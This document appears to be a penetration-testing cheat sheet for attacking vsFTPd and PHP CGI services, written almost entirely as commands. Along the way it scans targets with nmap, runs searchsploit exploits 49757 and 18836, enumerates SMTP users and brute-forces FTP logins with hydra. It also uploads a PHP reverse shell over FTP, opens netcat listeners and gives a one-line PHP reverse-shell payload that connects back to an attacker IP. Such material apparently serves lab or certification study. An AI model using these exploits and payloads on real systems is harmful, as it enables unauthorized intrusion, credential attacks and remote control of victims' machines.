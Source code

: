 **VSFTPD**

```
# Targeting VSFTPD
nmap -sV -sC -p 21 <TARGET_IP>

## Try anonymous:anonymous
ftp <TARGET_IP>

## Exploit vsFTPd
searchsploit vsftpd
searchsploit -m 49757
vim 49757.py
chmod +x 49757.py
python3 49757.py <TARGET_IP>

## Enumerate SMTP - msfconsole
use auxiliary/scanner/smtp/smtp_enum
setg RHOSTS <TARGET_IP>
set UNIXONLY true
run

## Brute-force FTP
hydra -l <USER> -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt <TARGET_IP> ftp

## Modify the shell via FTP
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
vim shell.php
## Change the $ip & $port variable to the Attacker's IP & port

ftp <TARGET_IP>
cd /
cd /var/www/dav
put shell.php

## Attacker listener
nc -nvlp <PORT>
## Open http://<TARGET_IP>/dav/shell.php

/bin/bash -i
```

```
# Targeting PHP
nmap -sV -sC -p 80 <TARGET_IP>

## Browse
http://<TARGET_IP>/phpinfo.php

## Manual Exploitation PHP CGI
searchsploit php cgi
searchsploit -m 18836
python2 18836.py <TARGET_IP> 80
## If it executes, modify the .py script
vim 18836.php
## PHP Reverse Shell
pwn_code = """<?php $sock=fsockopen("<ATTACKER_IP>",<PORT>);exec("/bin/sh -i <&4 >&4 2>&4");?>"""

## Attacker listener in another tab
nc -nvlp <PORT>
## Launch the exploit
python2 18836.py <TARGET_IP> 80
```

